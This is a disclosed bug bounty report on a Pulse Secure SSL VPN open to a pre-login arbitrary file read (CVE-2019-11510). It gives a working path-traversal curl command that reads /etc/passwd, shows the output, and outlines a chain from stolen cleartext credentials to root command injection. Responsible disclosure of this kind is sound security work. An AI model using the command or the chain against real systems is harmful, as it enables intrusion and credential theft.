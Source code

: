 # Arbitrary File Reading leads to RCE in the Pulse Secure SSL VPN on the https://██████ (███)

## Report Details
- **Report ID**: 696276
- **URL**: https://hackerone.com/reports/696276
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-17T07:31:51.824Z
- **Disclosed**: 2024-06-18T17:07:45.926Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
##Description
Hello. Some time ago, researcher Orange Tsai from DEVCORE team had a talk on Defcon/BlackHat regarding Pulse Secure SSL VPN vulnerabilities fixed on 2019/4/25:
**CVE-2019-11510 - Pre-auth Arbitrary File Reading**
CVE-2019-11542 - Post-auth Stack Buffer Overflow
**CVE-2019-11539 - Post-auth Command Injection**
CVE-2019-11538 - Post-auth Arbitrary File Reading
**CVE-2019-11508 - Post-auth Arbitrary File Writing**
CVE-2019-11540 - Post-auth Session Hijacking

Link to the slides: https://i.blackhat.com/USA-19/Wednesday/us-19-Tsai-Infiltrating-Corporate-Intranet-Like-NSA.pdf

I discovered that `https://██████████` instance is vulnerable to described vulnerabilities.

##POC

Reading `/etc/passwd` via CVE-2019-11510:
```
curl -i -k --path-as-is https://██████████/dana-na/../dana/html5acc/guacamole/../../../../../../etc/passwd?/dana/html5acc/guacamole/
```
```
root:x:0:0:root:/:/bin/bash
nfast:x:0:0:nfast:/:/bin/bash
bin:x:1:1:bin:/:
nobody:x:99:99:Nobody:/:
dns:x:98:98:DNS:/:
term:x:97:97:Telnet/SSH:/:
web80:x:96:96:Port 80 web:/:
rpc:x:32:32:Rpcbind Daemon:/var/cache/rpcbind:/sbin/nologin
```
█████

The RCE can be achieved with this chain:
1) Pulse Secure stores credentials in the cleartext.
2) Attacker reads credentials  and authorizes on VPN
3) Attacker exploits CVE-2019-11539 - Post-auth Command Injection achieving RCE as root.

##Suggested fix
Update the Pulse Secure SSL VPN software.

##Note
If you experience timeout errors when reproducing, try to change your IP/VPN

## Impact

Remote code execution as root (by reading plaintext credentials and then exploiting CVE-2019-11539 - Post-auth Command Injection) and accessing intranet behind VPN.
You can see here example report to Twitter by Orange Tsai: https://hackerone.com/reports/591295

## Attachments
No attachments
